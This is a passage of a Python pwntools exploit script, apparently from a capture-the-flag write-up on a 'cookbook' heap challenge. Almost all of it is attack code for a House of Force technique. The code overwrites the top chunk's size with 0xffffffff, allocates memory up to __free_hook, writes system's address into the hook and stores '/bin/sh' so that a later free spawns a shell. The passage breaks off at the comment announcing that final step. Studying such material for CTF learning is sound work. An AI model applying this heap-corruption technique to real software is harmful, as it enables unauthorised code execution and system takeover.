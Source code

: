 ```
	target.sendline('d')
	recvc()
	target.sendline('q')
	recv()

	#Add two new ingredients, then free one. This will position the wilderness value at a spot which we can easily write to it
	target.sendline('a')
	recv()
	target.sendline('n')
	recv()
	target.sendline('n')
	recv()
	target.sendline('d')
	recv()
	target.sendline('q')
	recv()

	#Write over the wilderness value which is 8 bytes away from the start of our input, with 0xffffffff
	target.sendline('c')
	recvc()
	target.sendline('i')
	recvc()
	wildernessWrite = p32(0x0) + p32(0x0) + p32(0xffffffff) + p32(0x0)
	target.sendline(wildernessWrite)
	recvc()
	target.sendline('q')
	recv()

def overwriteFreehook():

	#Calculate the space that we will need allocate to get right before the free hook
	malloc_to_freehook = (freehook - 16) - wilderness
	log.info("Space from wilderness to freehook is : " + hex(malloc_to_freehook))

#	This is one of the breakpoints that I used in the `Write over free hook` portion of the writeup
#	raw_input()
	#Allocate that much space by giving a cookbook a name of that size
	target.sendline('g')
	target.sendline(hex(malloc_to_freehook))
	target.sendline('0000')
	recv()

#	This is one of the breakpoints that I used in the `Write over free hook` portion of the writeup
#	raw_input()
	#Now that the heap is aligned, the next name should write over the freehook, which we write over it with the address of system
	target.sendline('g')
	target.sendline(hex(5))
	target.sendline(p32(sysadr))
	recv()

#	This is one of the breakpoints that I used in the `Write over free hook` portion of the writeup
#	raw_input()
	#Next we will allocate a new space in the heap, and store our argument to system in it
	target.sendline('g')
	target.sendline(hex(8))
	target.sendline("/bin/sh")
	recv()

	#Lastly we will run free om the space malloced in the last block, so we can run free with the system function as a hook, with an argument that is a pointer to "/bin/sh"
```